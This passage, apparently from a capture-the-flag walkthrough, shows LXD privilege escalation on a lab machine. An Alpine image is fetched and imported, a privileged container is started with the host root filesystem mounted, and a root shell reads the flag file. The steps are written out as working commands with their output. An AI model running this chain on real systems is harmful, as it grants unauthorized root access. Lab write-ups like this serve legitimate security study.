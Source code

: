 ```
Connecting to 10.6.96.167:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/octet-stream]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_ 100%[==========>]   3.11M  1.47MB/s    in 2.1s

2022-02-20 20:52:12 (1.47 MB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

john@exploitable:/tmp$ ls -l
total 3196
-rw-rw-r-- 1 john john 3259593 Feb 20 20:50 alpine-v3.13-x86_64-20210218_0139.tar.gz
drwx------ 3 root root    4096 Feb 20 19:49 systemd-private-4f0fbdea09514d25b5607791b1adb552-apache2.service-oAdjWA
drwx------ 3 root root    4096 Feb 20 19:48 systemd-private-4f0fbdea09514d25b5607791b1adb552-systemd-resolved.service-YOQaUo
drwx------ 3 root root    4096 Feb 20 19:48 systemd-private-4f0fbdea09514d25b5607791b1adb552-systemd-timesyncd.service-XpDlRe
```
- Sixth: Add the image and check this step
```
john@exploitable:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myiamge
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myiamge | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Feb 20, 2022 at 8:53pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```
- Seventh: Follow the command from [website](https://www.hackingarticles.in/lxd-privilege-escalation/)
```
john@exploitable:/tmp$ lxc init myiamge ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ #
```
```
~ # cd /mnt/root
/mnt/root # ls
bin             etc             lib             mnt             run             swap.img        var
boot            home            lib64           opt             sbin            sys             vmlinuz
cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
dev             initrd.img.old  media           root            srv             usr
/mnt/root # cd  root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```